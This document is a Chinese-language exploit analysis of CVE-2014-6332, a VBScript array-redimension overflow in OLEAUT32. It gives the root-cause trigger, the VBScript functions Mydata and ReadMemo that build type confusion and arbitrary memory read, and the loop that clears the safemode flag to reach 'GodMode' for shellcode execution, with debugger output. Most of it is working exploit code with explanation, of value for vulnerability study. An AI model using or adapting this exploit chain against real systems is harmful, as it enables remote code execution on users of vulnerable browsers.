



# CVE-2014-6332分析
0. safemode

1. root cause
注意到aa的length变为0x8000005
```
dim aa()
redim aa(5)
aa(0) = &h11223344

a2=5+&h8000000
IsEmpty(aa)

redim Preserve aa(a2)
IsEmpty(aa)

```

对length 被修改的内存下硬件写断点，定位到OLEAUT32!SafeArrayRedim

OLEAUT32!SafeArrayRedim 逻辑如下


2. 构造交错aa, ab

由于OLEAUT32!SafeArrayRedim 中的bug，redim Preserve aa(a2) 之后会使得aa可以越界访问。通过循环申请aa和ab，试图构造出以下内存布局



3. Setnotsafemode

```
function Mydata()  
  On Error Resume Next
  i=testaa
  i=null
  IsEmpty(i)

  redim Preserve aa(a2)
  ab(0)=0
  aa(a1)=i
  ab(0)=6.36598737437801E-314  
  aa(a1+2)=myarray
  ab(2)=1.74088534731324E-310  
  IsEmpty("Before return Mydata")
  Mydata=aa(a1)
  redim Preserve aa(a0)
end function
```


``` 
通过对aa, ab交替赋值，即可修改myarray、CScriptEntryPoint的type
从而得到一个 [0x0, 0x7fff0000) 的array, 以及CScriptEntryPoint 对象地址

```




```
function ReadMemo(add)  
  On Error Resume Next
  redim Preserve aa(a2)
  ab(0)=0
  aa(a1)=add+4
  ab(0)=1.69759663316747E-313
  IsEmpty("Before Return ReadMemo")
  ReadMemo=lenb(aa(a1))  
  ab(0)=0
  redim Preserve aa(a0)
end function
```


```
  for k=0 to &h60 step 4  
    j=ReadMemo(i+&h120+k)
    if (j=&he) then      '找到[ecx+0x174]==0x3的位置
      redim Preserve aa(a2)
      aa(a1+2)(i+&h11c+k)=ab(4)   'ab(4)还保留着初始化时的0； aa(a1+2)是myarray; [ecx+0x174]被赋值为0
      redim Preserve aa(a0)
      exit for
    end if
  next
```

```
修改[ecx+0x174]成功，进入GodMode，即可执行shellcode
0:007> dd 01d1e758+170 L2
01d1e8c8  00000000 0000000e
0:007> dd 01d1e758+170 L2
01d1e8c8  00000000 00000000
```

** 为什么要构造一个myarray? **
```
尽管aa已经有全址读写能力，但它的base不是从0开始。当ecx+174h的值后，我们不方便通过aa定位到它。

通过myarray，直接使用下标就可以访问它，更加方便。
```
